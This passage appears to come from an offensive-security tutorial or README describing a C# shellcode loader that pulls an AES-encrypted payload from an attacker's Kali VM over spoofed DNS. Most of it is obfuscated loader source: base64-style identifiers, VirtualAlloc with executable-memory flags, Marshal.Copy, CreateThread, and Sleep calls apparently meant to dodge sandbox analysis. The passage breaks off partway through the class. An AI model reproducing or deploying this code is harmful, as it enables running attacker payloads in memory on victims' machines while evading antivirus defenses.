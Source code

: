```AES_KEY``` should be equal to the python script passphrase that we gave before.
```DNS_SPOOF_ADDRESS``` should be equal with the attacker kali-linux VM machine, finally,
no need to change ```DNS_PREFIX```.

As you can see in below code we have some code for API Programming and ```[DllImport("kernel32")]```. 
If you want to use some Windows API Function (Unmanaged Codes) in your C# Codes 
(Managed Codes) then you need the first function line. with these line we can call the
unmanaged API Function ```(VirtualAlloc, CreateThread, WaitForSingleObject)```.
```C# 
namespace RArAtiTdkA;

using System;
using System.Runtime.InteropServices;

public static class dGVzdAo

{
    [DllImport("kernel32")]
    public static extern UInt32 VirtualAlloc(UInt32 bHBTdGFydEFkZHI, UInt32 c2l6ZQ, UInt32 Y2F0aW9uVHlwZQ, UInt32 ZmxQcm9);

    [DllImport("kernel32")]
    public static extern IntPtr CreateThread(UInt32 RyaWJ1dGVz, UInt32 BUaHJlYR, UInt32 ydEFkZH,IntPtr GFyYW, UInt32 ZsYWdz, ref UInt32 bHBUaHJlY);

    [DllImport("kernel32")]
    public static extern UInt32 WaitForSingleObject(IntPtr aEhhbmRs, UInt32 YWRJZA);


    public static UInt32 bWRzdA = 0x1000;

    public static UInt32 ZGRy = 0x40;

    public static UInt32 VA(this UInt32 YXI, byte[] cHBkc2Y)

    {
        System.Threading.Thread.Sleep(10000);

        UInt32 ZnJ0 = VirtualAlloc(0, (UInt32)cHBkc2Y.Length, bWRzdA, ZGRy);

        System.Threading.Thread.Sleep(10000);


        return ZnJ0;
    }

    public static void CPY(this UInt32 YnJ0eQ, byte[] IHNyYw, IntPtr ZGVz)

    {
        System.Threading.Thread.Sleep(5000);

        Marshal.Copy(IHNyYw, 0, (IntPtr)(ZGVz), IHNyYw.Length);
    }

    public static IntPtr CT(this UInt32 c, UInt32 c3RhZGQ, IntPtr eGU, UInt32 cmZn)

    {
        IntPtr hThread = CreateThread(0, 0, c3RhZGQ, eGU, 0, ref cmZn);

        System.Threading.Thread.Sleep(3000);

        return hThread;
    }
```